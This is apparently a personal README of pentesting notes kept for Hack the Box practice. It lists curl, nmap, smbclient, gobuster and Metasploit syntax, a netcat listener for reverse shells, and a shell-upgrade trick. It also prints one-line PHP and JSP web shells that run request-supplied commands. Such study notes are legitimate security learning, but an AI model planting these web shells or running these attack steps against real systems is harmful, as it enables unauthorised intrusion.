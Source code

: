 # HackTheWorld
This repository, created by William Torres, serves as a knowledge base for my pentesting journey. It contains notes, cheat sheets, and resources I’ve gathered through my exploration of cybersecurity challenges, including Hack the Box. As I continue learning and growing, I’ll update this space with valuable insights and tools—because I may hack the world.

### **CHEAT SHEET- https://devhints.io/curl**

## cURL is used for sending GET/POST requests to http/s

Curl can be used to get files or send data to servers using just command line and doing it fast. 

CURL 

-s silent most noise and make it easier to read

-v Verbose, easier to understand and shows almost everything included in request and connection

-i used to see request head and body

-I capitol i and used to see JUST header of request. 

-X sending a specific request such as POST or PUT, 

-d “DATA”; example with key for key.php ‘-d “key=UNENCRYPTED_KEY_HERE”

-L follows redirects page may give after login

-u username:pass used for logins with credentials if using login after url loads

## Structure of cURL

**basic connection**

$ curl http://<SERVER_IP>:<PORT>/ 

**if sending http authentication for logins with basic auth**

$ curl http://username:password@<SERVER_IP>:<PORT>/

**if sending with login using PHP logins after CONNECTION**

$ curl -X POST -u ‘username:admin&password:admin’ http://<SERVER_IP>:<PORT>/

## App/software/programs

- **SSH**
- **Netcat/ncat/nc**
    - Socat
    - Reverse shell capability using:
    - $ nc -lvnp 1234: listen for connection via only IP on port 1234
- **TMUX**
    - CTRL-B for prefix
        - SHIFT+”: splits up and down
        - SHIFT+%: splits to left or right
        - SHIFT+$: rename
        - Z: pause and unpause tmux
- **FTP**
- **SMB**(server message block)
    - SMB Client
        - necessary for attacks to open smb.
        - -N silences authentication if not needed and used to list shares
        - -L lists smb shares of available
        - $ smbclient -N -L \\\\<IP_ADDRESS>: used to list shares on smb port for a machine
- **NMAP**
    - -sC: makes nmap use scripts to obtain more information
    - -sV: makes nmap run a version scan.
    - -p-: makes nmap run all TCP ports
    - nmap --script <script name> -p<port> <host>: runs script in nmap
    - nmap -sV --script=banner <target>: grabs banner during scan of serviceversions.
    - SMD ENUMERATION: [SMD SCRIPT](https://nmap.org/nsedoc/scripts/smb-os-discovery.html)
- **GoBuster**
    - tool that allows for performing DNS, vhost, and directory brute-forcing
    - $ gobuster dir -u http://<IP_ADDRESS>/ -w /path/to/common/wordlist.txt
- **Metasploit**
    - $ msfconsole: starts metasploit
        - > search exploit <NAME>
        - > USE *copy path to exploit”
        - > show options: configures current exploit before deploy
        - > set <option> <value>: example for setting RHOSTS, the “victim” to ip 10.10.10.40
            - > set RHOSTS 10.10.10.40
        - > check: verifies if RHOST is actually vunerable to this attack.
        - > run | exploit
    - Searchsploit
- ExploitDB
- Github, [payloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/)
- Github, [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/peass-ng/PEASS-ng)
  
## Shell commands

$ python -c ‘import pty; pty.spawn(“/bin/bash”)’

upgrades shell connection to python/stty shell

CTRL+Z pause session in bash connection

input following stty command

$ stty raw -echo

$ fg

[enter]

## Resize STTY terminal

*in normal terminal:* $ echo $term

*in stty:* $ stty size

## Web Shell

`<?php system($_REQUEST["cmd"]); ?>`

opens web shell running php

same is JSP
`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
## LINKS

### Try "Try Hack Me" - [Try HACK Me](https://tryhackme.com/pricing)

### Common Ports - [Wayback Machine](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)

### VIM Cheat Sheet - [Watch Your Eyez](https://vimsheet.com/)

### HTTP STATUS CODES - [WIKIPEDIA WOOO](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes)

### HackTricks - [Pretty Cool Site](https://book.hacktricks.wiki/en/index.html)
